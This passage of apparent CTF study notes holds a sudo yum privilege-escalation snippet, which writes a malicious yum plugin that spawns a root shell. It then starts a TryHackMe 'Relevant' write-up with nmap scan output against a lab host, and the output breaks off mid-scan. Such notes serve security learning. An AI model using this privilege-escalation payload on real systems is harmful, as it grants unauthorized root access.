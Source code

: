 ```bash
cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

---

- HashCat examples: https://hashcat.net/wiki/doku.php?id=example_hashes

## Relevant (TryHackMe)
First I enumerated:

```bash
nmap -sV -sC 10.10.169.49                                                                                                                                                                                                   INT
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-15 13:14 BST
Nmap scan report for 10.10.169.49
Host is up (0.064s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-07-15T12:15:10+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2022-07-14T12:13:29
|_Not valid after:  2023-01-13T12:13:29
|_ssl-date: 2022-07-15T12:15:50+00:00; 0s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-07-15T12:15:14
|_  start_date: 2022-07-15T12:13:48
| smb-os-discovery: 
```